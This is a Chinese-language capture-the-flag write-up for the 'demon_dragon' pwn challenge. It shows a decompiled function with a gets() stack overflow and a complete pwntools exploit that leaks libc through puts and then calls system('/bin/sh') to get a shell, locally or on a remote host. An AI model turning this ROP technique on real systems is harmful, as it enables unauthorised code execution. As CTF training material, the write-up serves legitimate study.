 ## demon_dragon

- 题目描述：

  > 在Demon Dragon的巢穴入口，你遇到了一位女巫。
  >
  > 女巫说： 金克木，木克土，土克水，水克火，火克金。 
  >
  > By *Mercurio*    						
  
 - 题目附件：

   > [demon_dragon](https://cdn.jsdelivr.net/gh/SignorMercurio/MetasequoiaCTF@master/Pwn/DemonDragon/demon_dragon)
   >
   > [libmagic.so](https://cdn.jsdelivr.net/gh/SignorMercurio/MetasequoiaCTF@master/Pwn/DemonDragon/libmagic.so)

 - 考察点：动态链接？栈溢出

 - 难度：简单

 - 初始分值：300

 - 最终分值：299

 - 完成人数：2

### 程序分析

需要加载附件给的动态库，直接扔到`/lib`目录下即可在本地运行程序。

动态库里有乱七八糟一堆函数，都没有什么用，下面这个函数里有很明显的栈溢出，直接`ROP`带走即可

```c
__int64 sub_400C41(){
	// ...
    printf(
    "Suddenly, the Demon Dragon attacked you with %s, %s, %s, %s, %s!\n\n",
    (char *)v2 + 6 * dword_6020B0,
    (char *)v2 + 6 * dword_6020B4,
    (char *)v2 + 6 * dword_6020B8,
    (char *)v2 + 6 * dword_6020BC,
    (char *)v2 + 6 * dword_6020C0);
  printf("What are you going to do?!!\nSkill > ");
  return gets(&v1);
}
```

### exp

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './demon_dragon'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = '../libc.so.6'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

# info
# gadget
prdi = 0x0000000000400e43 # pop rdi ; ret

# elf, libc
main = 0x00400D6E
# rop1
offset = 72
payload = 'A'*offset
payload += p64(prdi) + p64(elf.got['puts']) + p64(elf.sym['puts']) + p64(main)

ru('Skill > ')
# debug()
sl(payload)
puts = uu64(rc(6))
info_addr('puts',puts)
libc_base = puts - libc.sym['puts']
info_addr('base',libc_base)
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search('/bin/sh').next()

# rop2
ru('Skill > ')
payload2 = 'B'*offset
payload2 += p64(prdi) + p64(binsh) + p64(system) + p64(main)
debug()
sl(payload2)
# log.warning('--------------')

p.interactive()
```

